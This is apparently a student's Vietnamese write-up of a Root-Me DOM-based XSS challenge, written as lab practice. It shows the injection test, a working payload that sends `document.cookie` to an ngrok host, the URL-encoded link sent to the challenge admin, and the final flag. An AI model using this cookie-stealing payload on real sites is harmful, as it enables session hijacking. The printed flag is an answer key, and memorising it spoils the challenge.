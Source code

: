 # Challenge: XSS DOM Based - Introduction
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 20 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1
- Trang web yêu cầu ta nhập vào một số, sau khi gởi, chúng ta kiểm tra lại mã nguồn, ta thấy giá trị nhập vào được thêm vào code
<p align="center"><img src="./images/2.1.png"></p>
<p align="center"><img src="./images/2.2.png"></p>

- Đến đây ta thử nhập vào một giá trị là `';alert(1);a='`
<p align="center"><img src="./images/2.3.png"></p>

- Để khai thác lỗi này thì ta cần 1 server để có thể nhận được thông tin từ lấy được từ challenge. Ta sử dụng Ngrok để tạo đường hầm (tunnel) giữa localhost và internet (Giống bài trước XSS-Stored 1)
- Đến đây ta tiến hành attack với dữ liệu được thêm vào là `';document.location="http://cf3a-171-253-133-218.ngrok.io/?cookie="+document.cookie;a='`, để có thể lấy được cookie ở phía client. Đến đây ta chỉ nhận được 1 request từ máy của ta đến server PHP đã mở trước đó  
<p align="center"><img src="./images/2.5.png"></p>

- Vì tấn công này diễn ra ở client, để có thể lấy cookie của admin ta cần gởi đường dẫn này cho admin... vào phần `contact` ta gởi link đã được endcode url `http://challenge01.root-me.org/web-client/ch32/?number=%27%3Bdocument.location%3D%22http%3A%2F%2Fcf3a-171-253-133-218.ngrok.io%2F%3Fcookie%3D%22%2Bdocument.cookie%3Ba%3D%27`
<p align="center"><img src="./images/2.4.png"></p>
- Đợi được 1 lúc ta sẽ nhận được 1 request của admin, kèm theo cookie của mình
<p align="center"><img src="./images/2.6.png"></p>

## Kết quả flag là `rootme{XSS_D0M_BaSed_InTr0}`